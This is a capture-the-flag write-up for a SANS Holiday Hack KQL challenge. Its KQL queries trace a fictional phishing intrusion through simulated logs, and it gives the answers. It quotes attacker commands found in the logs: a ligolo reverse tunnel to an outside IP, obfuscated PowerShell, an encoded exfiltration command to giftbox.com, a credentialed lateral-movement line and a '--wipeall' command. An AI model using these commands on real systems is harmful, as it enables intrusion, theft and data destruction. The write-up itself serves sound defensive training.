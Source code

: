 ```yaml
---
icon: material/text-box-outline
---
```


# KQL Kraken Hunt (submitted after deadline)

**Difficulty**: :fontawesome-solid-star::fontawesome-solid-star::fontawesome-regular-star::fontawesome-regular-star::fontawesome-regular-star:<br/>
**Direct link**: [Kusto Detective](https://detective.kusto.io/sans2023)

## Objective

!!! question "Request"
    Use Azure Data Explorer to uncover misdeeds in Santa's IT enterprise. Go to Film Noir Island and talk to Tangle Coalbox for more information.

??? quote "Tangle Coalbox"
    Greetings, rookie. Tangle Coalbox of Kusto Detective Agency here.

I've got a network infection case on Film Noir Island that needs your expertise.

Seems like someone clicked a phishing link within a client's organization, and trouble's brewing.

I'm swamped with cases, so I need an extra pair of hands. You up for the challenge?

You'll be utilizing the Azure Data Explorer and those KQL skills of yours to investigate this incident.

Before you start, you'll need to create a free cluster.

Keep your eyes peeled for suspicious activity, IP addresses, and patterns that'll help us crack this case wide open.

Remember, kid, time is of the essence. The sooner we can resolve this issue, the better.

If you run into any problems, just give me a holler, I've got your back.

Good hunting, and let's bring this cyber criminal to justice.

Once you've got the intel we need, report back and we'll plan our next move. Stay sharp, rookie.

## Hints

??? tip "Outbound Connections"
    Do you need to find something that happened via a process? Pay attention to the ProcessEvents table!

??? tip "KQL Tutorial"
    Once you get into the Kusto trainer, click the blue Train me for the case button to get familiar with KQL.
    
??? tip "File Creation"
    Looking for a file that was created on a victim system? Don't forget the FileCreationEvents table.

## Solution

------Onboarding-------

How many Craftperson Elf's are working from laptops? 25

	Employees
	| where hostname contains "Lap" and role contains "Crafts"
	| count

------Case 1 -------

What is the email address of the employee who received this phishing email? alabaster_snowball@santaworkshopgeeseislands.org


	(this gets the name, not what was asked)
	OutboundNetworkEvents
	| where url contains "MonthlyInvoiceForReindeerFood.docx"
	| join Employees on $left.src_ip == $right.ip_addr
	| project name


What is the email address that was used to send this spear phishing email? cwombley@gmail.com

	Email
	| where link contains "madelvesnorthpole.org"
	| project sender

What was the subject line used in the spear phishing email? [EXTERNAL] Invoice foir reindeer food past due

	Email
	| where link contains "madelvesnorthpole.org"
	| project subject



------Case 2 -------

What is the role of our victim in the organization? Head Elf

	OutboundNetworkEvents
	| where url contains "MonthlyInvoiceForReindeerFood.docx"
	| join Employees on $left.src_ip == $right.ip_addr
	| project role

What is the hostname of the victim's machine? Y1US-DESKTOP

	OutboundNetworkEvents
	| where url contains "MonthlyInvoiceForReindeerFood.docx"
	| join Employees on $left.src_ip == $right.ip_addr
	| project hostname

What is the source IP linked to the victim? 10.10.0.4

	OutboundNetworkEvents
	| where url contains "MonthlyInvoiceForReindeerFood.docx"
	| join Employees on $left.src_ip == $right.ip_addr
	| project ip_addr
	
	
------Case 3 --------

What time did Alabaster click on the malicious link? 2023-12-02T10:12:42Z

	OutboundNetworkEvents
	| where url contains "MonthlyInvoiceForReindeerFood.docx"
	| project timestamp
	
What file is dropped to Alabaster's machine shortly after he downloads the malicious file? giftwrap.exe

	let starttime =
	toscalar(OutboundNetworkEvents
	| where url contains "MonthlyInvoiceForReindeerFood.docx"
	| project starttime=timestamp);
	FileCreationEvents
	| where timestamp between (starttime .. 2min)

------Case 4 ---------

The attacker created an reverse tunnel connection with the compromised machine. What IP was the connection forwarded to?  113.37.9.17:22

	ProcessEvents
	| where hostname == "Y1US-DESKTOP"

	manual investigation result:
	"ligolo" --bind 0.0.0.0:1251 --forward 127.0.0.1:3389 --to 113.37.9.17:22 --username rednose --password falalalala --no-antispoof

What is the timestamp when the attackers enumerated network shares on the machine?  2023-12-02T16:51:44Z
	This is from the 'net share' command when it should have been 'net use' 

What was the hostname of the system the attacker moved laterally to? NorthPolefileshare

	"timestamp": 2023-12-24T15:14:25Z,
	"parent_process_name": cmd.exe,
	"parent_process_hash": 614ca7b627533e22aa3e5c3594605dc6fe6f000b0cc2b845ece47ca60673ec7f,
	"process_commandline": cmd.exe /C net use \\NorthPolefileshare\c$ /user:admin AdminPass123,
	"process_name": cmd.exe,
	"process_hash": bfc3e1967ffe2b1e6752165a94f7f84a216300711034b2c64b1e440a54e91793,
	"hostname": Y1US-DESKTOP,
	"username": alsnowball


------Case 5 -----------

When was the attacker's first base64 encoded PowerShell command executed on Alabaster's machine? 2023-12-24T16:07:47Z

What was the name of the file the attacker copied from the fileshare? NaughtyNiceList.txt

The attacker has likely exfiltrated data from the file share. What domain name was the data exfiltrated to? giftbox.com


-----Case 6 ------------

What is the name of the executable the attackers used in the final malicious command?  downwithsanta.exe

What was the command line flag used alongside this executable?  --wipeall

----- Solution ------
print base64_decode_tostring('QmV3YXJlIHRoZSBDdWJlIHRoYXQgV29tYmxlcw==')
Beware the Cube that Wombles


----- Notes --------
Case 4 time stamp for the command to list network shares was actually not correct. The challenge accepted the timestamp of the net /share command rather than net use.
    
    Powershell code found:

cmd.exe /C net use \\NorthPolefileshare\c$ /user:admin AdminPass123


( 'txt.tsiLeciNythguaN\potkseD\:C txt.tsiLeciNythguaN\lacitirCnoissiM\$c\erahselifeloPhtroN\\ metI-ypoC c- exe.llehsrewop' -split '' | %{$_[0]}) -join ''

translates to: powershell.exe -c powershell.exe -c Copy-Item C:\Desktop\NaughtyNiceList.txt \\NorthPolefileshare\c$\MissionCritical\NaughtyNiceList.txt


[StRiNg]::JoIn( '', [ChaR[]](100, 111, 119, 110, 119, 105, 116, 104, 115, 97, 110, 116, 97, 46, 101, 120, 101, 32, 45, 101, 120, 102, 105, 108, 32, 67, 58, 92, 92, 68, 101, 115, 107, 116, 111, 112, 92, 92, 78, 97, 117, 103, 104, 116, 78, 105, 99, 101, 76, 105, 115, 116, 46, 100, 111, 99, 120, 32, 92, 92, 103, 105, 102, 116, 98, 111, 120, 46, 99, 111, 109, 92, 102, 105, 108, 101))|& ((gv '*MDr*').NamE[3,11,2]-joiN

converted to text:
downwithsanta.exe -exfil C:\\Desktop\\NaughtNiceList.docx \\giftbox.com\file

C:\Windows\System32\downwithsanta.exe --wipeall \\\\NorthPolefileshare\\c$
    

### Images

![MS Copilot help](../img/objectives/o13/decoded_from_ms_copilot.PNG)


!!! success "Answer"
    Beware the Cube that Wombles

## Response

!!! quote "Tangle Coalbox"
    I had my doubts, but you've proven your worth.

That phishing scheme won't trouble our client's organization anymore, thanks to your keen eye and investigatory prowess.

So long, Gumshoe, and be careful out there.

